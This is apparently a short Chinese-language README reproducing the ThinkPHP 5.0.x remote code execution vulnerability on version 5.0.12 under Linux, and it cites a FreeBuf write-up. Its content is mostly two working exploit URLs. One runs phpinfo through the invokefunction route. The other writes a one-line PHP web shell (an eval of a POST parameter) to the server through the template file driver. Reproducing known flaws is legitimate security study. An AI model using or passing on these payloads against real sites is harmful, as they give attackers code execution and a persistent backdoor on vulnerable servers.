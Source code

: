 ### 参考

freebuf上比较全面的复现及分析：https://www.freebuf.com/vuls/191847.html

### 复现

复现环境： thinkphp5.0.12

看了上面的那篇文章，才知道win平台与linux平台payload不太一样，我这里是linux平台。

**写phpinfo**

`/index.php/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1`

![](assets/burp.png)

![](assets/browser.png)

**写一句话木马**

`/index.php/?s=index/\think\template\driver\file/write&cacheFile=axin.php&content=<?php @eval($_POST[axin]);?>`

